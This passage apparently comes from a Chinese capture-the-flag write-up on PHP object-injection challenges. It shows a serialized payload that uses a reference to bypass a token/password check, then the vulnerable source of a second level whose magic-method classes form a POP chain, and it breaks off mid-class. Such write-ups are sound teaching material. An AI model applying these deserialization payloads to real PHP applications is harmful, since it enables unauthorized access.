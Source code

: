 ```php
    }
}

$payload = new Flag(1,1);
echo serialize($payload);
```

> payload:   ?pop=O:4:"Flag":2:{s:5:"token";i:1;s:8:"password";R:2;}  

打印flag（第二关：fpclosefpclosefpcloseffflllaaaggg.php

```php
<?php
highlight_file(__FILE__);
class A {
    public $mack;
    public function __invoke()
    {
        $this->mack->nonExistentMethod();
    }
}

class B {
    public $luo;
    public function __get($key){
        echo "o.O<br>";
        $function = $this->luo;
        return $function();
    }
}

class C {
    public $wang1;

    public function __call($wang1,$wang2)
    {
            include 'flag.php';
            echo $flag2;
    }
}


class D {
    public $lao;
    public $chen;
    public function __toString(){
        echo "O.o<br>";
        return is_null($this->lao->chen) ? "" : $this->lao->chen;
    }
}

class E {
    public $name = "xxxxx";
    public $num;

    public function __unserialize($data)
    {
        echo "<br>学到就是赚到!<br>";
        echo $data['num'];
    }
    public function __wakeup(){
        if($this->name!='' || $this->num!=''){
            echo "旅行者别忘记旅行的意义!<br>";
        }
```